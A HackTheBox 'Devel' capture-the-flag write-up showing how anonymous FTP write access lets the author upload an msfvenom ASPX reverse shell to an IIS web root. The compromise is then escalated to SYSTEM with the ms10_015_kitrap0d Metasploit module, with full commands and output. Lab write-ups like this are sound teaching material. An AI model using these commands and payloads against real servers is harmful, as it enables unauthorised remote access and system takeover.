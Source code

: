 ```yaml
---
layout: post
title: HackTheBox Devel (10.10.10.5) Writeup
description: >
  Hackthebox Devel Writeup
image: /assets/img/devel.png
---
```


<center><h3>Summary</h3></center>
<br>

- Use an Anonymous FTP login with write permission to upload a shell
- Use <b>ms10_015_kitrap0d</b> to escalate priveleges to root
<br>
First thing is always an Nmap scan

```
# Nmap 7.70 scan initiated Thu May 30 12:00:56 2019 as: nmap -sV -sC -T4 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up (0.043s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login alloId (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 Ilcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 30 12:01:12 2019 -- 1 IP address (1 host up) scanned in 16.12 seconds
```
Only two ports open but I do see that there is Anonymous login alloId on FTP.
```
# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access alloId, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp>
```
If I list the files inside the directory I see a few files. From the looks of them it seems to be the default files for an IIS installation.
```
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 Ilcome.png
226 Transfer complete.
```
I can confirm this by navigating to <b>http://10.10.10.5</b>

![Ilcome.png](../../resources/2198e0ae39a449b5a99de73c21d1e10d.png)

Now I know the files from the FTP can be directly accessed from the webpage. I decide to check if I have write privileges to the FTP server so I could upload a reverse shell. I test this by upload a test file

```
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
967 bytes sent in 0.00 secs (1016.5081 kB/s)
```
If I go back to the  webpage and navigate to <b>test.txt</b> I see my file

![test.png](../../resources/1fb1cf084a494647a095325c56b721bc.png)

I am going to use msfvenom to create the payload for the reverse shell

```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f aspx > shell.aspx

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2798 bytes
```
I put the shell onto the system using FTP
```
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2834 bytes sent in 0.00 secs (31.0657 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
09-23-19  03:42AM                 2834 shell.aspx
09-23-19  03:35AM                    9 test.txt
03-17-17  05:37PM               184946 Ilcome.png
226 Transfer complete.
```
Now I need to set up our listener. Metasploits's <b>exploit/multi/handler</b> will be used for this
```
msf5 exploit(multi/handler) > set lhost 10.10.14.21
lhost => 10.10.14.21
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.21:4444
```
Now in the  webpage, navigate to <b>http://10.10.10.5/shell.aspx</b>



![shell.png](../../resources/60aabc6c3aaa4ab3bb36d156e6391764.png)


Now if I check the listener I should have a <b>meterpreter</b> shell. Checking the user I will see that I have a low privilege shell

```
[*] Started reverse TCP handler on 10.10.14.21:4444
[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.21:4444 -> 10.10.10.5:49157) at 2019-09-19 08:49:29 -0400

meterpreter > getuid
Server username: IIS APPPOOL\web
```
Next step is to run the <b>local_exploit_suggester</b>
```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 29 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```
I get tons of suggestions but the one I am going to use is <b>ms10_015_kitrap0d</b>. The reason I chose this one is because I have used it before and know that it works

Now I background the current <b>meterpreter</b> session so I can load in the <b>ms10_015_kitrap0d</b> exploit.
```
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d
msf5 exploit(windows/local/ms10_015_kitrap0d) > set session 1
session => 2
msf5 exploit(windows/local/ms10_015_kitrap0d) > set lhost tun0
lhost => tun0
msf5 exploit(windows/local/ms10_015_kitrap0d) > set lport 5555
lport => 5555
msf5 exploit(windows/local/ms10_015_kitrap0d) > exploit

[*] Started reverse TCP handler on 10.10.14.21:5555
[*] Launching notepad to host the exploit...
[+] Process 2140 launched.
[*] Reflectively injecting the exploit DLL into 2140...
[*] Injecting exploit into 2140 ...
[*] Exploit injected. Injecting payload into 2140...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 3 opened (10.10.14.21:5555 -> 10.10.10.5:49161) at 2019-09-19 09:10:29 -0400

meterpreter>
```
Now I have a new <b>meterpreter</b> shell and if I do <b>getuid</b> it will show that I are <b>NT AUTHORITY SYSTEM</b>
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
Now I grab both flags. To do this type <b>shell</b> so I can get a windows shell.
```
meterpreter > shell
Process 3584 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```
The user flag is located in <b>C:\Users\babis\Desktop</b>
```
Directory of C:\Users\babis\Desktop

18/03/2017  02:14     <DIR>          .
18/03/2017  02:14     <DIR>          ..
18/03/2017  02:18                 32 user.txt.txt
              1 File(s)             32 bytes
              2 Dir(s)  24.452.411.392 bytes free
```
The root flag is located in <b>C:\Users\Administrator\Desktop</b>
```
Directory of C:\Users\Administrator\Desktop

18/03/2017  02:17     <DIR>          .
18/03/2017  02:17     <DIR>          ..
18/03/2017  02:17                 32 root.txt.txt
              1 File(s)             32 bytes
              2 Dir(s)  24.452.411.392 bytes free
```
<br><br><br>
